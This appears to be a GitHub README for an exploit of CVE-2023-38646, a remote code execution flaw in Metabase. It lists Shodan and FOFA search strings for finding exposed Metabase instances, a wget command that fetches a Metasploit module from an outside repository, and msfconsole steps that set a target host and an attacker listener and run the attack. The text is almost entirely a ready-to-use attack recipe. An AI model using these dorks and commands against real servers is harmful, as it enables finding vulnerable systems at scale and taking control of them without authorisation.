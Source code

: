 # CVE-2023-38646
![](https://img.shields.io/static/v1?label=Product&message=Metabase&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Open%20Source%20before%200.46.6.1%20and%20Enterprise%20before%201.46.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
product:"Metabase"
```
- FOFA dork:
```
app="Metabase"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Metabase/metabase_setup_token_rce.rb
```
```
cp metabase_setup_token_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

## Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/metabase_setup_token_rce.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
